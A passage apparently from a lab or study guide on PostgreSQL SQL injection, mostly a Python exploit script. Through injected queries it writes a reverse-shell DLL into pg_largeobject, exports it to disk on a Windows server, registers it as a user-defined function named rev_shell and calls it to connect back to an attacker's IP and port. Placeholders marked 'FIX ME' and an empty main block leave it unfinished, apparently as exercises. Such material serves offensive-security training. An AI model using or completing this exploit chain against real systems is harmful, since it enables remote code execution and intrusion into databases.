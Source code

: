 3. Inject a query that updates page 0 of the newly created large object with the first 2KB of our DLL
4. Inject queries that insert additional pages into the _pg_largeobject_ table to contain the remainder of our DLL
5. Inject a query that exports our large object (DLL) onto the remote server file system
6. Inject a query that creates a PostgreSQL User Defined Function (UDF) based on our exported DLL
7. Inject a query that executes our newly created UDF

Encoding matters here
```Python
import requests, sys, urllib, string, random, time
requests.packages.urllib3.disable_warnings()

# encoded UDF rev_shell dll
udf ='YOUR DLL GOES HERE'
loid = 1337

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def delete_lo(url, loid):
   log("[+] Deleting existing LO...")
   sql = "SELECT lo_unlink(%d)" % loid
   make_request(url, sql)

def create_lo(url, loid):
   log("[+] Creating LO for UDF injection...")
   sql = "SELECT lo_import($$C:\\windows\\win.ini$$,%d)" % loid
   make_request(url, sql)
   
def inject_udf(url, loid):
   log("[+] Injecting payload of length %d into LO..." % len(udf))
   for i in range(0,((len(udf)-1)/--------FIX ME--------)+1):
         udf_chunk = udf[i*--------FIX ME--------:(i+1)*--------FIX ME--------]
         if i == 0:
             sql = "UPDATE PG_LARGEOBJECT SET data=decode($$%s$$, $$--------FIX ME--------$$) where loid=%d and pageno=%d" % (udf_chunk, loid, i)
         else:
             sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode($$%s$$, $$--------FIX ME--------$$))" % (loid, i, udf_chunk)
         make_request(url, sql)

def export_udf(url, loid):
   log("[+] Exporting UDF library to filesystem...")
   sql = "SELECT lo_export(%d, $$C:\\Users\\Public\\rev_shell.dll$$)" % loid
   make_request(url, sql)
   
def create_udf_func(url):
   log("[+] Creating function...")
   sql = "create or replace function rev_shell(text, integer) returns VOID as $$C:\\Users\\Public\\rev_shell.dll$$, $$connect_back$$ language C strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
```